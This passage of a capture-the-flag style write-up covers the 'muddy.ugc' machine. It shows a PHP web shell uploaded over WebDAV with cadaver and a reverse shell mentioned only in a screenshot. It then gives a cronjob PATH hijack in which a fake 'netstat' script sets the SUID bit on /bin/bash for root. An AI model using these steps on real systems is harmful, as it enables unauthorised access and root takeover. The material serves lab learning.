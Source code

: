 It works, so let's put a PHP web shell since we have Wordpress content on the page as well, indicating that PHP is being used.&#x20;

```
$ cadaver http://muddy.ugc/webdav
Authentication required for Restricted Content on server `muddy.ugc':
Username: administrant
Password: 
dav:/webdav/> put cmd.php
Uploading cmd.php to `/webdav/cmd.php':
Progress: [=============================>] 100.0% of 34 bytes succeeded.
```

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell easily:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> PATH Hijack

I ran a `linpeas.sh` to enumerate possible escalation vectors, and it picked up on this:

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

The SYSTEM PATH variable has a writeable directory as its first directory, and the cronjob executed by `root` does not specify the full PATH for `netstat` and `service`. As such, we can just create a `netstat` script like so:

```bash
cd /dev/shm
echo '#!/bin/bash' > netstat
echo 'chmod u+s /bin/bash' >> netstat
chmod 777 netstat
```

